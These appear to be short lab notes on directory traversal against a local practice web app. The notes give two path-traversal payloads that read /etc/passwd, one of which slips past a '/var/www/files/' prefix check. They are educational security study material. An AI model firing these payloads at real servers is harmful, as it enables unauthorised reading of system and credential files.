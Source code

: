 # Directory Traversal

## Example 1 - Traversing from an image

`http://172.16.219.145/dirtrav/example1.php?file=hacker.png`
- url has a `?file=` query

<img src="https://raw.githubusercontent.com/ryancranie/webappsec/refs/heads/main/_img/Pasted%20image%2020250413193043.png" width="600"/>

### Payload

`?file=../../../etc/passwd`

<img src="https://raw.githubusercontent.com/ryancranie/webappsec/refs/heads/main/_img/Pasted%20image%2020250413193138.png" width="600"/>


## Example 2 - `/var/www/files` Bypass

`http://172.16.219.145/dirtrav/example2.php?file=/var/www/files/hacker.png`
- sometimes input validation will ensure the first 3 directories after `?file=` is `/var/www/files/`

### Payload

`?file=/var/www/files/../../../etc/passwd`

![[Pasted image 20250413193413.png]]


---

Last Updated 20250413